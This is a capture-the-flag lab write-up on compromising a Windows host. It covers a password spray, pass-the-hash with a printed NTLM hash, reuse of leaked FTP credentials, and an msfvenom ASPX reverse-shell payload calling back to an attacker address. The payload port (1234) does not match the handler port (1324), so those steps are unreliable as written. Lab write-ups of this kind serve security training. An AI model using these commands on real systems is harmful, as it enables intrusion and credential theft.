





# Host & Network Penetration Testing: Exploitation CTF 2

## Overview

This lab targeted a single Windows host exposing FTP, IIS, SMB, and RDP services. The assessment chained together SMB credential guessing, NTLM hash reuse via pass-the-hash, leaked credential discovery, FTP access, and a web shell upload to gain full Meterpreter access to the target.

**Objectives:**

- Identify the services running on `target.ine.local`
- Compromise the SMB user **tom** (weak/unchanged password)
- Use the NTLM hash list discovered via `tom` to compromise the SMB user **nancy**
- Use a hint recovered from `nancy`'s share to gain further access
- Compromise the target machine and retrieve `C:\flag4.txt`

**Useful wordlist:**

```text
/usr/share/wordlists/metasploit/unix_passwords.txt
```

---

## Enumeration

An Nmap scan was run from inside Metasploit so results would be tracked in the workspace database:

```bash
db_nmap -sV -O -sC -p- target.ine.local
```

**Results:**

```text
Nmap scan report for target.ine.local (10.5.21.175)
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc
49153/tcp open  msrpc
49154/tcp open  msrpc
49155/tcp open  msrpc
49167/tcp open  msrpc
49168/tcp open  msrpc
```

RDP's NTLM info disclosure revealed the hostname and build:

```text
Target_Name: WIN-M878Q9NE9S6
Product_Version: 6.3.9600
```

The target is a Windows Server host (Windows Server 2012 R2, based on the build number) running IIS 8.5, with SMB, RDP, and FTP all exposed — a wide attack surface to work through.

---

## Flag 1 — Cracking SMB User `tom`

The brief noted that the SMB user **tom** hadn't changed his password in a long time, suggesting a weak, guessable credential. CrackMapExec was used to spray a common password list against the account:

```bash
crackmapexec smb target.ine.local -u tom -p /usr/share/wordlists/metasploit/unix_passwords.txt
```

This recovered a valid password:

```text
tom : felipe
```

With working credentials, an SMB share was accessed directly:

```bash
smbclient //target.ine.local/HRDocuments -U tom
```

```text
smb: \> ls
  flag1.txt                           A       34
  leaked-hashes.txt                   A     6665
```



Two files of immediate interest were sitting in the share: the flag itself, and a leaked NTLM hash dump — a strong hint that the next step would involve hash reuse rather than another password guess.

```text
Flag 1: 862613cee02e480381be3254f0a16fd8
```

The `leaked-hashes.txt` file was downloaded for use in the next stage, and on inspection contained an entry for the user **nancy** — matching the hint given for Flag 2.

---

## Flag 2 — Compromising `nancy` via Pass-the-Hash

Rather than cracking the hash, it could be used directly for authentication (pass-the-hash). The NTLM hash for `nancy` was tested with CrackMapExec:

```bash
crackmapexec smb target.ine.local -u nancy \
  -H aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad
```

This confirmed the hash was valid for authentication. To pull files from `nancy`'s accessible shares, Metasploit's `smb_login` module was used with the full leaked hash file, so all credentials from the dump were tried against the account in one pass:

```text
use auxiliary/scanner/smb/smb_login
set PASS_FILE /root/leaked-hashes.txt
set SMBUser nancy
set CreateSession true
run
```

A valid SMB session was established. From there, an additional share was located and browsed:

```text
shares -i ITResources
ls
```

Inside, two files stood out: `flag2.txt` and `hint.txt`. Both were downloaded:

```text
download flag2.txt
download hint.txt
```

This captured the second flag and surfaced a hint file for the next stage.


---

## Flag 3 — Following the Leaked Hint

The downloaded `hint.txt` was inspected directly:

```bash
cat hint.txt
```

```text
Who knows, these creds might come handy! ---> david:omnitrix_9901
```

These credentials pointed toward another exposed service — in this case, FTP, which had been identified during initial enumeration but not yet accessed. Logging in with `david`'s credentials against the FTP service led directly to the third flag:

```text
Flag 3: b6719566a688473fa1d32993053cf542
```


This confirmed the hint was meant to bridge SMB access into the FTP service, reusing a credential set discovered earlier in the chain.

---

## Flag 4 — Web Shell Upload & Meterpreter Access

With valid FTP credentials (`david`) and the knowledge that the FTP root mapped to the IIS web root, the final stage involved uploading a web shell to get code execution on the host.

**1. Generate an ASPX Meterpreter payload:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.44.4 LPORT=1234 \
  -f aspx > shell.aspx
```

**2. Upload the payload via FTP**, authenticated as `david`, placing `shell.aspx` into the IIS web root.

**3. Start a Metasploit multi/handler to catch the callback:**

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 1324
run
```

**4. Trigger execution** by requesting `shell.aspx` through a browser, causing IIS to execute the payload server-side.

**5. Catch the session.** The listener received a callback, establishing a full Meterpreter session on the target with the privileges of the IIS application pool account.

From the resulting session, the final flag was retrieved from the filesystem:

```text
C:\flag4.txt
```




This completed the chain — from a weak SMB password, through hash reuse and a leaked hint, to full remote code execution on the target.

---

## Flags Captured

| Flag | Value |
|---|---|
| Flag 1 | `862613cee02e480381be3254f0a16fd8` |
| Flag 2 | *(captured via `ITResources` share — see notes)* |
| Flag 3 | `b6719566a688473fa1d32993053cf542` |
| Flag 4 | *(retrieved from `C:\flag4.txt` via Meterpreter)* |

> Note: the literal values for Flag 2 and Flag 4 weren't captured in the original notes — fill these in from your screenshots before publishing.

---

## Key Takeaways

- Weak, long-unchanged SMB passwords remain one of the most reliable initial access vectors — `tom`'s account fell to a basic dictionary spray with CrackMapExec.
- Leaked NTLM hash dumps don't need to be cracked to be useful: **pass-the-hash** against `nancy` worked directly, skipping offline cracking entirely.
- Files left behind on accessible shares (hints, leaked creds) often chain services together — the `hint.txt` find was the pivot from SMB into FTP.
- An exposed FTP service that shares a webroot with IIS is a direct path to remote code execution: any file uploaded via FTP becomes server-executable content.
- ASPX web shells generated with `msfvenom` paired with a Metasploit `multi/handler` are a reliable way to convert file upload access into a full interactive session.

## Skills Practiced

- Service & Port Enumeration (Nmap, RDP NTLM info disclosure)
- SMB Password Spraying (CrackMapExec)
- NTLM Hash Extraction & Reuse
- Pass-the-Hash Authentication
- SMB Share Enumeration & File Exfiltration
- Credential Chaining Across Services
- FTP Exploitation via Webroot Upload
- ASPX Web Shell Generation (`msfvenom`)
- Metasploit `multi/handler` & Meterpreter Post-Exploitation
- Windows Target Compromise
